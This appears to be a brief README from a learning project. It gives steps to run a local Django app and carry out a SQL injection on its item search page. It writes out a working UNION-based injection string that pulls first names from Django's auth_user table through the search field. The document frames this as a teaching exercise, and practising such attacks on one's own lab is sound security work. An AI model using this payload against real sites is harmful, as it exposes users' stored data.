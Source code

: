How to perform a SQL Injection Attack

Steps

- pip install Django
- python manage.py runsever
- http://127.0.0.1:8000/items/search
- SELECT name FROM orders_item WHERE name LIKE '%' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '%'
- Search for "z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '"

Adding a test line. Just for learning reasons.

